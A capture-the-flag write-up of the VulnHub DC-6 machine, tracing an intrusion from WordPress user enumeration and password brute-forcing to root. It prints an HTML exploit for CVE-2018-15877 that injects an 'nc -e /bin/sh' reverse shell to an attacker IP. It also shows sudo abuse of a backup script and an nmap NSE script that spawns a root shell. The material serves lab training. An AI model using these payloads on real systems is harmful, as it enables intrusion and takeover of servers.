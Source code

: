 ```yaml
---
layout: post
title: Vulhub - DC6 writeup
date: 2019-07-06 11:21
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-6,315/">DC6</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap

![](images/DC6/nmap.png)

Only two ports are open. Let's just start with the website.

***

It's just another wordpress website. Let's see what we can find out from `wpscan` but before that edit your `/etc/hosts` file to add the following line:

```bash
<IP-of-the-machine>      wordy
```

This way `wpscan` won't mess up anything. I ran the following command:

```bash
➜ wpscan --url http://wordy -e p --no-banner --no-update
```

and I found some users

![](images/DC6/user.png)

and found that the theme that was used is outdated,

![](images/DC6/theme.png)

But wasn't vulnerable to any kind of attack. Since I can't see any way around I decided to bruteforce users for a password. I started with `sarah` and got nothing.

![](images/DC6/sarah.png)

and then `graham` and got nothing

![](images/DC6/graham.png)

then finally when I brutefroced the password for `mark` account I got a hit

![](images/DC6/mark.png)

We can use the password `helpdesk01` to login to mark's wordpress account.

***

After loggin into the dashboard I was thinking of getting a reverse shell using theme/plugin editing but there wasn't any option for that. The only new option I saw was `activity monitor`.

![](images/DC6/activity.png)

I looked around a bit and then just googled `wordpress activity monitor exploit`

![](images/DC6/google.png)

The very first URL was the exploit I was looking for i.e [RCE via Activity monitor](https://github.com/aas-n/CVE/tree/master/CVE-2018-15877)

I copy pasted the exploit in a file and opened in a browser to send the requests but it didn't work.

I had to edit the exploit because for some reason the URL encoded payload didn't work so I just added the `google.fr| nc -e /bin/sh 192.168.43.70 4444` without encoding.

```html
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: Lyderic LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -e /bin/sh 192.168.43.70 4444" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
and it worked. I spwaned the TTY shell using

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](images/DC6/reverse-shell.png)

***

I first visited the `/home` diretory and then realised that I have a password for `mark` so I tried to `su mark` but it didn't worked but I found something better in mark's home directory.

![](images/DC6/graham-pass.png)

Now we can use the `su` command to become `graham`.

![](images/DC6/su.png)

***

Let's enumerate the system using `Enumeration` script. I started python http server on my system and wget the file.

![](images/DC6/wget.png)

Meh....the script didn't found anything interesting. Will have to do a manual look around.

In the `jens` home directory I found a script named `backups.sh`. I tried running it like `./backups.sh` but got error saying `permission denied`. That's when I decided to check the sudo rights.

![](images/DC6/sudoer.png)

This mean I can run this script but not by doing `./backups.sh` but using the sudo right i.e `sudo -u jens ./backups.sh`.

![](images/DC6/test-run.png)

This mean we can just edit this file to get a shell.

***

I couldn't open the `backups.sh` file in nano since we were still depending on the shell we spwaned after getting the reverse shell.

I used the graham's creds i.e `graham: GSo7isUM1D4` to login with SSH.

***

I added a line in the end of the file to get us a shell.

![](images/DC6/edit.png)

This way I got a shell but this wasn't the root shell since that script was executed by user `jens` so we have became `jens` from `graham`.

![](images/DC6/su-jens.png)

The first thing I did was check the `jens` sudo right.

![](images/DC6/jens-sudo.png)

We can run nmap as a `root` :)

Just make a script in the tmp directory
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
```
and now we can run this script with nmap which will give us a shell.

![](images/DC6/root.png)

***

Thanks to [@DCAU7](https://twitter.com/DCAU7) for making an awesome machine.

